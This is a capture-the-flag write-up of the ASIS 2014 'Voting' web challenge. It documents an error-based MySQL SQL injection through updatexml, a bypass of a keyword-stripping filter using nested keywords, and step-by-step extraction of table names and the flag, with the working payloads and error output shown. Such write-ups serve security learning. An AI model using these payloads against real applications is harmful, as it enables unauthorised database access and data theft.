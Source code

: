 # ASIS Cyber Security Contest Finals 2014: Voting

**Category:** Web
**Points:** 175
**Description:**

> Go here:
> <http://asis-ctf.ir:12441/>

## Write-up

This website shows a poll for operating systems where the user can choose between Windows, Linux and Mac. When submitting your choice, the following data is submitted:

```
os=Linux&submit=Submit
```

That’s not a lot of data, so let’s try some basic SQL injection: `os=Linux'&submit=Submit`. This gives the following error:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Linux''' at line 1
```

That’s very interesting. We can use this error, to give us data by creating a malformed XPATH query:

```
os=Linux'-updatexml(0,concat('.',(SELECT group_concat(table_name) FROM information_schema.columns where table_schema != 'information_schema' LIMIT 10 ),'1'),2)#&submit=Submit
```

The result:

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '(0,concat('.',( group_concat(table_name) infmation_schema.columns table_schema' at line 1
```

That’s not the result we wanted, but still interesting. It appears some of our keywords were stripped, such as `where`, `select` and `from`. It also removed the `or` in `information`. Let’s try a simple trick:

```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT group_concat(table_name) FfromROM infoORrmation_schema.columns wwherehere table_schema != 'infoORrmation_schema' LlimitIMIT 10 ),'1'),2)#&submit=Submit
```

This gives us `XPATH syntax error: 'tbl_flag,tbl_flag,tbl_poll,tbl_p'`. The `tbl_flag` must contain our flag.

```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT substr(flag,1,30) FfromROM tbl_flag),'1'),2)#&submit=Submit
```

This results in:

```
XPATH syntax error: 'ASIS_1dc337d61dac5cb910eb5b8c11'
```

Almost there. The XPATH error has a fixed size, so our flag is incomplete. We’ll have to execute the injection one more time:

```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT substr(flag,20,30) FfromROM tbl_flag),'1'),2)#&submit=Submit
```

Putting these pieces together results in `ASIS_1dc337d61dac5cb910eb5b8c17c52fef1`, which is the flag.

## Other write-ups and resources

* <http://tasteless.eu/2014/10/asis-ctf-finals-2014-voting/>

